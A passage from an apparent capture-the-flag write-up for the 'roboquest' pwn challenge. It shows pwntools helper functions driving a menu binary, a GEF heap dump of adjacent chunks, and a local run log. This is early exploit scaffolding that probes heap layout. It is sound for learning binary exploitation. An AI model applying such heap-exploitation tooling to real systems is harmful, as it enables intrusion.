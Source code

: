 ```
	target.sendline(str(question_id))

	print(target.recvuntil(b'question:'))

	target.sendline(content)

def show_question(question_id):
	print(target.recvuntil(b'4. Remove'))

	target.sendline(b'2')

	print(target.recvuntil(b'Question\'s id:'))

	target.sendline(str(question_id))
    
def remove_question(question_id):
	print(target.recvuntil(b'4. Remove'))

	target.sendline(b'4')

	print(target.recvuntil(b'Question\'s id:'))

	target.sendline(str(question_id))
    
create_question(0x18, b'a' * 0x18)
create_question(0x18, b'b' * 0x18)
show_question(0)

target.interactive()
```
```
gef➤  x/20gx 0x0000561f4cf4a260
0x561f4cf4a260: 0x6161616161616161      0x6161616161616161
0x561f4cf4a270: 0x6161616161616161      0x0000000000000021
0x561f4cf4a280: 0x6262626262626262      0x6262626262626262
0x561f4cf4a290: 0x6262626262626262      0x0000000000020d71
```
```
knittingirl@DESKTOP-C54EFL6:/mnt/c/Users/Owner/Desktop/CTF_Files/htb_uniCTF_finals22/pwn_roboquest/challenge$ python3 roboquest_writeup.py NOPTRACE
[+] Starting local process './robo_quest': pid 1566
[!] Skipping debug attach since context.noptrace==True
[*] '/mnt/c/Users/Owner/Desktop/CTF_Files/htb_uniCTF_finals22/pwn_roboquest/challenge/.glibc/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
b'\x1b[1;33m\n\nData collector Robo-quest is ready to be initialized with questions.\n\n\n( ( o ) )\n    |\n+-------+\n|  O O  |\n|  ---  |\n+-------+\n\x1b[0m\n\x1b[1;33m\n1. Create\n2. Show\n3. Modify\n4. Remove'
b"\n> \x1b[0m\n[*] Question's size:"
roboquest_writeup.py:17: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  target.sendline(str(size))
b' [*] Insert question here:'
b' \x1b[1;36m\n[+] Question has been created!\n\x1b[0m\n\x1b[1;33m\n1. Create\n2. Show\n3. Modify\n4. Remove'
b"\n> \x1b[0m\n[*] Question's size:"
b' [*] Insert question here:'
b' \x1b[1;36m\n[+] Question has been created!\n\x1b[0m\n\x1b[1;33m\n1. Create\n2. Show\n3. Modify\n4. Remove'
b"\n> \x1b[0m\n[*] Question's id:"
```
